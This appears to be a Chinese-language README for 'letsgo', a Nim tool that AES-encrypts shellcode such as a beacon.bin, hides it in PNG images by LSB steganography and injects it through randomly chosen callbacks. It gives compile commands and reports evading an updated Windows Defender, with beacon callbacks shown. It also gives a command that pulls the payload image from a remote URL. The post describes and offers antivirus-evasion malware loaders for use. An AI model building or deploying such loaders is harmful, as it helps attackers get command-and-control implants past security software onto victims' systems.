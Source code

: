 # letsgo
Shellcode Injection via Callbacks and Steganography.
# nim-lang 免杀测试：回调函数结合隐写术

就是将 shellcode，比如，beacon.bin 隐藏到一张 PNG 图片中，当然要先经过 AES 加密后在嵌入图片。运行时再将 shellcode 提取出来，最终通过回调的方式注入 shellcode。

## 隐写术

本想直接使用 https://github.com/treeform/steganography ，但是却无情报错：

![https://github.com/treeform/flippy/issues/35](https://files-cdn.cnblogs.com/files/StudyCat/letsgo1.bmp)

阅读代码发现，其实就是将信息隐藏在 PNG 图片每个像素 RGBA 中的最低两位，所以一个像素就能隐藏8位也就是1个字节的数据。还有一个坑就是，如何识别嵌入了多少数据，最终决定用前8个字节保存嵌入数据的大小。这部分的代码保持在 lsb.nim 中。

加解密部分，用的是 AES256-CTR ，参考了OffensiveNim的 [encrypt_decrypt_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/encrypt_decrypt_bin.nim) 

## 生成加密图片

编译 lsb.nim

nim c -d:realese --opt:size --cpu:amd64 lsb.nim

生成加密图片

![生成加密图片](https://files-cdn.cnblogs.com/files/StudyCat/2.bmp)

还原文件

![还原文件](https://files-cdn.cnblogs.com/files/StudyCat/3.bmp)

对比还原的文件和原来的文件发现hash一致，说明无误。

## 注入shellcode

注明：本地测试已将 windows 10 defender 更新至最新（如果一次不成功，可尝试第二次）。

目前一共内置17个通过回调注入shellcode的方法，运行时随机会选择一个。这部分的实现可以看我的上一篇文章 [Shellcode Injection via Callbacks](https://www.freebuf.com/articles/269158.html)

编译 letsgo.nim

nim c -d:realese -d:ssl --opt:size --cpu:amd64 letsgo.nim

![上线截图](https://files-cdn.cnblogs.com/files/StudyCat/4.bmp)

![上线截图](https://files-cdn.cnblogs.com/files/StudyCat/5.bmp)

除了可以通过本地文件上线之外，还可以将图片上传至云上，比如：

letsgo.exe https://www.test.com/images/logo.png 12345678

项目地址 https://github.com/StudyCat404/letsgo

## 引用

https://github.com/S3cur3Th1sSh1t/Nim_CBT_Shellcode
https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection
https://github.com/treeform/steganography
https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/encrypt_decrypt_bin.nim

